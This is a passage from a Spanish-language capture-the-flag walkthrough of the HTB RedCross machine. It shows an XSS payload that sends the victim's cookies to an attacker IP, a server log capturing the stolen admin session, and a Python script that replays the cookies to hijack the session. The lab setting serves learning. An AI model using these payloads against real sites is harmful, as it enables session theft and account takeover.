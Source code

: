 ```js
var req1 = new XMLHttpRequest();
req1.open('GET', 'http://10.10.14.12/?cookie=' + document.cookie, false);
req1.send();
```
Este payload lo que hace esque la persona haga una peticón a tu ip de atacante con su cookie:  
```<script src="http://10.10.14.12/pwn.js"></script>```
```console
└─$ sudo python3 -m http.server 80
10.10.10.113 - - [19/Nov/2022 10:32:33] "GET /pwn.js HTTP/1.1" 200 -
10.10.10.113 - - [19/Nov/2022 10:32:33] "GET /?cookie=PHPSESSID=ta4sbdc0an5jkq215m8q5kq2e5;%20LANG=EN_US;%20SINCE=1668850355;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 200 -
```
Al poner esto (PHPSESSID=ta4sbdc0an5jkq215m8q5kq2e5) de cookie dice que hay un error en mi sintaxis sql. 

```python3
#!/usr/bin/python3
import requests
import urllib3; urllib3.disable_warnings()

url1 = "https://intra.redcross.htb/?page=app"
cookie = {"PHPSESSID":"ta4sbdc0an5jkq215m8q5kq2e5"}
sess = requests.session()
req1 = sess.get(url1, cookies=cookie,verify=False)
print(req1.text)
```
Si queremos secuestrar la session entera hay que ponerlo todo:  
```
└─$ php --interactive
php > print(urldecode("cookie=PHPSESSID=ta4sbdc0an5jkq215m8q5kq2e5;%20LANG=EN_US;%20SINCE=    1668850355;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1"));
cookie=PHPSESSID=ta4sbdc0an5jkq215m8q5kq2e5; LANG=EN_US; SINCE=1668850355; LIMIT=10; DOMAIN=admin 
```
Asi que lo mismo en el python pero añadiendo mas campos:  
```python
cookie = {"PHPSESSID":"ta4sbdc0an5jkq215m8q5kq2e5", "LANG":"EN_US", "SINCE":"1668850355", "LIMIT":"10", "DOMAIN":"admin"}
```
----------------------------------
# Part 3: Entrando en el panel de administración 

Haciendo la petición tenemos un mensaje: 
```
** Información sobre cuenta de invitado ** De admin(uid 1) para invitado (uid 5)
Tendras bajos privilegios mientras te tramitamos la petición de credenciales, nuestro sistema de mensajería 
todavía está en fase beta asi que reporta si hay algun error.

** Comportamientos extraños ** de admin para charles(uid 3)
¿Podrias mirar el panel de administración? Esque no se que pasa pero cuando miro los mensajes me salen todo
el rato alertas POP-UP. ¿Sera un virus?  (o sea el alert("XSS") 
   
** Parad de mirar los mensajes de intra ** de penelope(uid 2) para admin
Hola... mira deja de mirar los mensajes de intra que seguro que es por culpa de alguna vulnerabilidad en el sitio.

** Parad de mirar los mensajes de intra ** de admin para penelope
Lo siento, no puedo hacer eso, es la única manera de comunicarme con los compañeros, y estamos saturados. 
No parece tan malo, ¿Que es lo peor que podria pasar? Lo arreglaré en cuanto pueda
```
Con esta extensión del navegador puedes moverte por toda la página arrastrando las cookies (son diferentes pero porque la pifié dandole a 
